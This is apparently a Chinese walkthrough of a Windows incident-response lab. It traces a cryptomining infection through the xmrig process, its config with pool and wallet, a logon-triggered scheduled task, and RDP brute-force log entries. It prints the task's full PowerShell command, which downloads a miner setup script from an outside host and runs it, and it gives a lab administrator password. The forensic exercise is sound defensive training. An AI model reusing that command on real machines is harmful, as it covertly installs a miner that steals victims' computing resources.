






:::info

前景需要

机房运维小陈，下班后发现还有工作没完成，然后上机器越用越卡，请你帮他看看原因。

相关账户密码

`Administrator / zgsf@123`

挑战题解

- 攻击者的IP地址
- 攻击者开始攻击的时间
- 攻击者攻击的端口
- 挖矿程序的MD5
- 后门脚本的MD5
- 矿池地址
- 钱包地址
- 攻击者是如何攻击进入的

:::

查看一下进程信息，直接定位`xmrig.exe`



根据这个进程找一下网络连接信息，没找到；然后跳转到文件目录



`config.json`文件找到

```
"url": "auto.c3pool.org:80 ",
"user":"4APXVhukGNiR5kqqVC7jwiVaa5jDxUgPohEtAyuRS1uyeL6K1LkkBy9SKx5W1M7gYyNneusud6A8hKjJCtVbeoFARuQTu4Y"
"pass": "WIN_E2Q5H2DPBGH",
```

因为一开始有一个执行弹窗，先找一下这个执行脚本



排查计划任务、服务、启动项



触发条件是任意用户登录

```
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://download.c3pool.org/xmrig_setup/master/setup_c3pool_miner.bat', $tempfile); & $tempfile 4APXVhukGNiR5kqqVC7jwiVaa5jDxUgPohE1uyeL6K1LkkBy9SKx5W1M7gYy6A8hKjJCtVbeoFARuQTu4Y; Remove-Item -Force $tempfile"
```

现在找到了

- 挖矿程序的MD5 `xmrig.exe`
- 后门脚本的MD5 `systems.bat`
- 矿池地址： `auto.c3pool.org:80`
- 钱包地址 ：`4APXVhukGNiR5kqqVC7jwiVaa5jDxUgP.....`

然后分析攻击者怎么进来的

直接使用工具分析日志





分析出：

- 攻击者的IP地址：`192.168.115.131`
- 攻击者开始攻击的时间：`2024-05-21 20:25:22`
- 攻击者攻击的端口：`3389`

